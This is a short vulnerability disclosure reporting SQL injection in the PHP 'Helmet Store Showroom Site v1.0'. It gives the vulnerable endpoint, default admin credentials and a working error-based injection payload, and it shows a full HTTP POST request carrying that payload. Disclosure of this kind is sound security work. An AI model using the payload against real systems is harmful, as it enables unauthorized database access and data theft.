 # Helmet Store Showroom Site v1.0 by oretnom23 has SQL injection

Vulnerability Discoverer: Venus-TBLab-YangTao

Login account: admin/admin123 (Super Admin account)

vendors: https://www.sourcecodester.com/php/15851/helmet-store-showroom-site-php-and-mysql-free-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /hss/classes/Master.php?f=delete_category

Vulnerability location: /hss/classes/Master.php?f=delete_category,id

dbname =hss_db,length=6

[+] Payload:  id=6' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id


```sql
POST /hss/classes/Master.php?f=delete_category HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://192.168.1.88/hss/admin/?page=categories
Content-Length: 65
Cookie: PHPSESSID=29mcgvmjo6mqsepd64ra2rlt4v
Connection: close

id=6' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![image](https://user-images.githubusercontent.com/54017627/204070067-cc39bf17-4f1b-4c93-a24d-626081846914.png)
